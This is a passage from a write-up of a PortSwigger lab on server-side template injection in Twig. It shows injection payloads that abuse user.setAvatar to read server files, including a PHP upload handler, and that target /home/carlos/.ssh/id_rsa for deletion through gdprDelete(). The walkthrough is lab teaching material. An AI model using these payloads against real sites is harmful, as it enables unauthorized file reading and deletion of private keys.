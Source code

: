 ```php
            throw new Exception("Could not delete " . $filename);
        }
    }
}

?>
```

Do this same step to download avatar_upload.php, We are gathering as much info as we can now that may help us solve the lab:

{% raw %}
```
blog-post-author-display=user.setAvatar('/home/carlos/avatar_upload.php','image/jpeg')
```
{% endraw %}

We get this:

```php
<?php

require_once("./User.php");

if ($_FILES['avatar']['error'] !== 0) {
    throw new Exception("Error in file upload: " . $_FILES['avatar']['error']);
}

if (strpos($_FILES['avatar']['name'], "/") !== false || strpos($_FILES['avatar']['name'], ".") === false) {
    throw new Exception("Uploaded file name is invalid: " . $_FILES['avatar']['name']);
}

$file = "/tmp/" . $_FILES['avatar']['name'];
if (!move_uploaded_file($_FILES['avatar']['tmp_name'], $file)) {
    throw new Exception("Could not move uploaded file '" . $_FILES['avatar']['tmp_name'] . "' to '" . $file . "'");
}

$user = new User($_POST['user'], null, null, null);
$user->setAvatar($file, $_FILES['avatar']['type']);
header('Location: ./');

?>
```

Now check the codes of these two files that are used in file upload functionality, we find an interesting public method: `gdprDelete()`, It is used to delete an avatar image and its symbolic link, so this might be our answer, first we set our avatar image as follows, with the file that should be deleted: 

{% raw %}
```
blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpeg')
```
{% endraw %}


[^1]: Icon made by [Freepik](https://www.flaticon.com/authors/freepik) from [www.flaticon.com](https://www.flaticon.com/)
[^2]: [Server-side template injection \| Web Security Academy](https://portswigger.net/web-security/server-side-template-injection)
[^3]: [Twig Documentation](https://twig.symfony.com/doc/)
[^4]: [Constructing a custom exploit using developer-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting#constructing-a-custom-exploit-using-developer-supplied-objects)